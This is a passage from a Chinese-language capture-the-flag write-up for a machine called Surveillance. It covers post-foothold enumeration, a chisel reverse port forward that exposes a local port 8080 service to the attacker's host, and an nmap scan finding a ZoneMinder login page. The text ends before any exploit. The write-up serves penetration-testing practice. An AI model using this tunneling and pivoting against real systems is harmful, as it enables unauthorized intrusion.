    ```
   www-data@surveillance:/home$ su matthew
   Password: 
   matthew@surveillance:/home$ 
   ```

   

# 3.特权提升

1. 枚举发现本地开启了8080端口

   ```
   matthew@surveillance:~$ netstat -tuln
   Active Internet connections (only servers)
   Proto Recv-Q Send-Q Local Address           Foreign Address         State      
   tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
   tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
   tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
   tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
   tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
   tcp6       0      0 :::22                   :::*                    LISTEN     
   udp        0      0 127.0.0.53:53           0.0.0.0:*                          
   udp        0      0 0.0.0.0:68              0.0.0.0:*   
   ```

   利用chisel进行端口转发

   ```
   ┌──(root㉿kali)-[~/TOOLS/chisel]
   └─#  ./chisel server -p 1234 --reverse
   
   ./chisel client 10.10.16.3:1234 R:8080:127.0.0.1:8080
   ```

   确定转发成功

   ```
   ┌──(root㉿kali)-[~]
   └─# ss -anlp | grep 8080                    
   tcp   LISTEN 0      4096                                              *:8080                   *:*    users:(("chisel",pid=40675,fd=8))  
   ```

   

2. nmap扫描一下该8080端口上的服务

   ```
   ┌──(root㉿kali)-[~]
   └─# nmap -sV -sC -Pn -p8080 127.0.0.1 --min-rate 10000                             
   Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-11 23:10 EST
   Nmap scan report for localhost (127.0.0.1)
   Host is up (0.00011s latency).
   
   PORT     STATE SERVICE VERSION
   8080/tcp open  http    nginx 1.18.0 (Ubuntu)
   |_http-title: ZM - Login
   | http-robots.txt: 1 disallowed entry 
   |_/
   |_http-server-header: nginx/1.18.0 (Ubuntu)
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
   
   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 18.71 seconds
   ```

